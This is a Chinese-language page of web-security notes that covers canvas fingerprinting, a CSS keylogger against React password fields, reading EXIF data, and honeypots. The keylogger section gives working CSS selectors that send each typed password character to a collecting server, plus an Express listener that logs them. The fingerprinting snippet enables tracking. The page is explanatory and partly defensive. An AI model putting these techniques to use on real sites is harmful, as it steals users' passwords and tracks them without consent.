 ### 网络安全

###

#### 1、canvas指纹追踪技术

```javascript
const uuid = () => {
    const canvas = document.createElement('canvas');
    const ctx = canvas.getContext('2d');
    const txt = '指纹追踪';
    ctx.fillText(txt, 10, 10);
    return canvas.toDataURL(); // 获取用户设备及操作系统
}
// 防止被跟踪
// 安装浏览器插件，随即修改canvas指纹的插件， CanvasFingerprintBlock 
// 原理：每次随机往canvas画布里注入一个随机的噪音（人肉眼是看不到的），从而影响bease64加密；
```

#### 2、css键盘记录器 - React
<pre>
    这种行为只存在于使用React/类React框架的页面中
    场景一般隐匿于第三方脚本当中，从而窃取你的密码。
    攻击手段利用css属性选择器，可以在加载background-image 通过url进行请求
    使用一个简单的脚本可以创建一个css文件，该文件将为每个ASCII字符发送一个自定义请求，
    因为react会设置value值。
</pre>
```css
/*css 脚本*/
input[type="password"][value$="0"]{background-image: url("http://localhost:3000/0")}
input[type="password"][value$="1"]{background-image: url("http://localhost:3000/1")}
input[type="password"][value$="2"]{background-image: url("http://localhost:3000/2")}
input[type="password"][value$="3"]{background-image: url("http://localhost:3000/3")}
input[type="password"][value$="@"]{background-image: url("http://localhost:3000/40")}
/* ... */
```
```javascript
// 创建服务器并启动 监听键盘输入值
const express = require('express')
const app = express()
app.get('/:key',(req,res)=>{
    process.stdout.write(`${req.params.key}\n`)
    res.sendStatus(200)
})
app.listen(3000,()=>{
    console.log('listening on 3000')
})
```

#### 3、图片信息（EXIF) 可交换图像文件
<pre>
    EXIF是镶嵌在jpeg/tiff图像文件格式内的一组拍摄参数，需要注意的是EXIF信息不支持png,webp等格式。
    EXIF（图像文件格式）是一种图像文件格式，它允许图像文件包含有关图像拍摄条件和方式的有关信息。
    这些信息可以包括拍摄日期、拍摄地点、相机型号、白平衡、光圈、快门速度、ISO感光度等。
    这些信息可以被图像处理软件读取，并用于图像的编辑、调整、美化等操作。
    使用场景：
    勾选上传原图会将EXIF信息一起上传，在下载原图时，会自动下载包含EXIF信息的图片。
</pre>
```javascript
import EXIF from 'exif-js'
const img = document.getElementById('image');
img.onload=()=>{
    EXIF.getData(img, function() {
        const exifData = EXIF.getAllTags(this);
        const res = EXIF.pretty(this);
        console.log(res);
        // 输出EXIF信息
        console.log(exifData);
    });
}
```

#### 4、蜜罐技术
<pre>
    蜜罐技术是一种防御性网络安全技术，用于检测、分析和响应网络攻击。
    蜜罐是一种虚拟的目标，用于诱捕和捕获网络攻击者的攻击行为。
    蜜罐技术通过部署一系列虚拟系统、网络设备、应用程序等，来模拟真实的目标系统，并将其暴露在互联网上。
    当攻击者试图攻击这些虚拟系统时，会被蜜罐捕获和记录下来，从而可以分析和检测攻击者的行为。
    蜜罐技术可以有效地保护真实的目标系统，并提高网络安全防护能力。
</pre>
